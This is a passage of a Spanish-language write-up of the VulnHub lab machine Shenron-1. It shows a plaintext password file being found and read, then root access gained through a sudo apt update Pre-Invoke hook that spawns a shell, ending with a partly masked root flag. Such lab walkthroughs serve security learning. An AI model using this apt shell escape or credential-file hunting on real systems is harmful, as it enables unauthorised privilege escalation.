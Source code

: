 ## Búsqueda de archivos pertenecientes al usuario shenron

```bash
shenron@shenron:~$ find /home -type f -user shenron
```

```bash
/var/opt/password.txt
``` 


```bash
shenron@shenron:~$ cat /var/opt/password.txt
shenron : YoUkNowMyPaSsWoRdIsToStRoNgDeAr
```

## Permisos sudo del usuario shenron 

![sudo perms shenron](/images/writeups/vulnhub/shenron1/sudopermsshenron.png)

## Ejecución de shell con apt

```bash
shenron@shenron:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh

# whoami
root
```

## Flag del usuario root

```bash
# cat root.txt
                                                               
  mmmm  #                                                mmm   
 #"   " # mm    mmm   m mm    m mm   mmm   m mm            #   
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           #   
     "# #   #  #""""  #   #   #     #   #  #   #   """     #   
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         mm#mm 
                                                               
Your Root Flag Is Here : aa087b**************************
```

